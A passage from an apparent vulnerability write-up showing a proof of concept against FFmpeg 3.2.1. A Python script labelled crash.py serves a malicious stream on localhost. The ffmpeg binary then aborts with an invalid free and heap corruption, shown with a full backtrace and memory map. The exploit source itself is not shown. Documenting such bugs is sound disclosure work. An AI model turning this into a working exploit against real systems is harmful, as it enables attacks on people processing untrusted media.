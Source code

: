 Running the python script and starting the listener.

```shell
$ python crash.py
[+] Trying to bind to 0.0.0.0 on port 12345: Done
[+] Waiting for connections on 0.0.0.0:12345: Got connection from 127.0.0.1 on port 59258
[+] Victim found!
[*] Bug triggered. Please wait for two seconds...
[*] Payload sent!
[*] Closed connection to 127.0.0.1 port 59258
```

Starting the `ffmpeg` binary ends in the binary yielding the abort signal and
display an invalid free debug message which indicates some corruption of the
heap.

```shell
$ ./ffmpeg -i http://127.0.0.1:12345 test.avi
ffmpeg version 3.2.1 Copyright (c) 2000-2016 the FFmpeg developers
  built with gcc 5.4.0 (Ubuntu 5.4.0-6ubuntu1~16.04.4) 20160609
  configuration: --prefix=/home/ubuntu/ffmpeg_build
  --bindir=/home/ubuntu/ffmpeg_bin --disable-stripping
  libavutil      55. 34.100 / 55. 34.100
  libavcodec     57. 64.101 / 57. 64.101
  libavformat    57. 56.100 / 57. 56.100
  libavdevice    57.  1.100 / 57.  1.100
  libavfilter     6. 65.100 /  6. 65.100
  libswscale      4.  2.100 /  4.  2.100
  libswresample   2.  3.100 /  2.  3.100
*** Error in `./ffmpeg': free(): invalid next size (normal): 0x0000000002042b80 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f01f9f047e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7f01f9f0d37a]
/lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7f01f9f1153c]
./ffmpeg[0x5ca7b5]
./ffmpeg[0x5edb26]
./ffmpeg[0x6db95d]
./ffmpeg[0x4880b0]
./ffmpeg[0x489cec]
./ffmpeg(main+0xa2)[0x47bdf2]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f01f9ead830]
./ffmpeg[0x47c039]
======= Memory map: ========
00400000-01446000 r-xp 00000000 08:01 784064 /home/ubuntu/ffmpeg_bin/ffmpeg
01645000-01646000 r--p 01045000 08:01 784064 /home/ubuntu/ffmpeg_bin/ffmpeg
01646000-0168d000 rw-p 01046000 08:01 784064 /home/ubuntu/ffmpeg_bin/ffmpeg
0168d000-01de4000 rw-p 00000000 00:00 0
02040000-0207b000 rw-p 00000000 00:00 0      [heap]
...
7ffe943ad000-7ffe943af000 r--p 00000000 00:00 0                          [vvar]
7ffe943af000-7ffe943b1000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0              [vsyscall]
Aborted (core dumped)
```
